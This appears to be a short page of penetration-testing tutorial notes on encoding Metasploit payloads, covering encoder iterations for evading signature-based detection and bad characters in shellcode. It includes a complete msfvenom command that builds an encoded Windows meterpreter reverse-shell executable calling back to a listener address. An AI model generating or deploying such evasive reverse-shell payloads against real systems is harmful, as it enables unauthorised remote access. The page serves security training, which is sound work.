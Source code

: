 # Payload Encoding

## Metasploit

### Best Encoders

<figure><img src="../../../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../../.gitbook/assets/Screenshot 2025-07-19 201153.png" alt=""><figcaption></figcaption></figure>

### &#x20;Iterations

* When you encode a payload, it transforms the payload’s bytecode to obfuscate it.
* **Running multiple iterations** means the encoder is applied again and again, each time further obfuscating the payload.
* This can help evade signature-based detection because the final encoded payload looks different every time.

| Option         | Description                                 |
| -------------- | ------------------------------------------- |
| `-i <number>`  | Number of times to apply the encoder        |
| Typical values | 1 to 5 (higher values increase obfuscation) |

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe > payload.exe
```

### &#x20;Bad Characters

* Some bytes have special meanings in protocols or programming languages, e.g.:
  * Null byte (`\x00`) often terminates strings in C.
  * Newline (`\x0a`) or carriage return (`\x0d`) might break payload formatting.
* Including these bytes in your shellcode can cause it to fail or behave unpredictably

> Basicly we can say what are bad characters to avoid crash
